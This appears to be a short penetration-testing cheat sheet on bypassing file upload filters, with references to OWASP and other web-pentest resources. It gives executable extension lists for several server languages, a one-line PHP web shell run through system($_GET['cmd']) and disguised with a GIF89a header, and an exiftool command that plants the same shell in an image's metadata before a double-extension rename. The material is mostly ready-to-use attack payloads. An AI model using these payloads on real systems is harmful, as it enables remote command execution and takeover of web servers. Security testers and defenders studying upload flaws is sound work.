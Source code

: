 # Bypass file upload filtering



## Rename it

But instead we can just rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php**
phtml, .php, .php3, .php4, .php5, and .inc

**asp**
asp, .aspx

**perl**
.pl, .pm, .cgi, .lib

**jsp**
.jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion**
.cfm, .cfml, .cfc, .dbm

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte


## References

http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html

https://www.owasp.org/index.php/Unrestricted_File_Upload
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf